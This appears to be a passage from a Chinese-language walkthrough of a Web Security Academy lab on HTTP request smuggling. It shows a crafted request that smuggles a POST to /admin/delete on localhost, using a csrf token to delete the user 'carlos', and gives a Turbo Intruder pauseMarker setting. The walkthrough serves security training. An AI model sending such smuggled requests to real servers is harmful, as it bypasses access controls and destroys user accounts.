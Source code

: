 -   操作属性 (/admin/delete)
-   输入的名称 (用户名)
-   csrf token

[![](assets/1705301772-b465d8425709135eaf72f9b47ac1c097.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184316-b9714924-b2c9-1.png)  
返回配置界面并使用上述信息构造表单重新发送请求：

```bash
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=Dyo9ajteplhUQGufcNGiOcFgfceGOVz9&username=carlos
```

若要防止 Turbo Intruder 在请求中两次出现后暂停，需要更新 pauseMarker 参数，使其仅匹配第一组标头的结尾，例如：

```bash
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```

[![](assets/1705301772-c700b3666d9e7308bc21b00c097dfb6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184350-cdebb286-b2c9-1.png)  